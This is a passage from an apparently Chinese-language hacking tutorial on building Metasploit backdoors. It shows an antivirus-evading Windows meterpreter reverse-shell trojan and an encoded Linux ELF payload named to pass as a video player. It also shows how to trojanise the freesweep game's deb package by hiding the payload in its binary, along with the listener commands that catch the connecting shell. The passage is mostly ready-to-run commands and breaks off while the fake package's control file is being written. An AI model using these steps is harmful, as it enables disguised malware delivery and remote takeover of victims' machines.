 6. 使用 evasion  模块生成免杀木马：

	```shell
	use evasion/windows/windows_defender_exe  # 使用指定模块
		set FILENAME xue.exe  # 设置文件名称
		set payload windows/meterpreter/reverse_tcp  # 设置 payload
		set Lhosts 192.168.1.104 # 设置 hosts
		run # 执行
	
	# 监听
	use exploit/multi/handler  # 设置模块
		set payload windows/meterpreter/reverse_tcp # 设置 payload
		set lhost 192.168.18.143  # 与生成木马的地址一样
		run  # 执行
			# 查看获取的权限，进行提权
	```

	

#### 2. 制作 Linux 恶意软件

```shell
# 使用一个编码器
msfvenom # 工具
	-a x64 # 指定架构
	--platform linux # 指定平台
	-p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
	-i 10 # 指定编码次数
	-f elf # 指定输出文件格式
	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
	
# 监听
use exploit/multi/handler  # 设置模块
	set payload linux/x/meterpreter/reverse_tcp # 设置 payload
	set lhost 192.168.18.143  # 与生成木马的地址一样
	run  # 执行
		# 查看获取的权限，进行提权
```

### 4.   制作恶意 deb 软件包进行渗透

制作恶意软件包使用 --download-only 方式下载软件包，不进行安装，eg: 安装 frteesweep
```shell
apt --download-only install freesweep  # 只下载不安装，下载的位置在 /var/cache/apt/archives
dpkg -x freesweep_1.0.2-1_amd64.deb free  # 解压 deb 软件包

msfvenom 	-a x64 	--platform linux  -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=4444 -b "\x00"  -i 10  -f elf  -o /root/free/usr/games/freesweep_sources # 生成后门程序

# 创建软件包信息目录
	mkdir free/DEBIAN && cd free/DEBIAN  # 创建目录
	vim /root/free/DEBIAN/control  # 创建信息文件
	# 信息内容：
	Package: freeweep
    Version: 1.0.1-1
    Section: Games and Amusement
    Priority: optionsal
    Architecture: amd64
    Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
    Description: a text-based minesweeper
     Freesweep is an implementation of the popular minesweeper game,where one tries to find all the mines without igniting
```